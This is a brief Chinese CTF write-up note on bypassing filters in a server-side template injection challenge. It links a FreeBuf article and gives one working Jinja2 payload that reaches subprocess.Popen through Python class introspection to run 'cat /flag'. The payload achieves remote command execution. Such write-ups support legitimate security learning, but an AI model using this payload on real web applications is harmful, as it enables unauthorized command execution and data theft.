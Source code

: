 # 知识点
### 一些利用类以及过滤绕过方法
[浅谈SSTI - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/290756.html)
# 思路
过滤了2、3等数字，os._wrap_close这个类没法使用，思考利用subprocess.Popen()
```python
?name={{().__class__.__mro__[1].__subclasses__()[407]("cat /flag",shell=True,stdout=-1).communicate()[0]}}
```
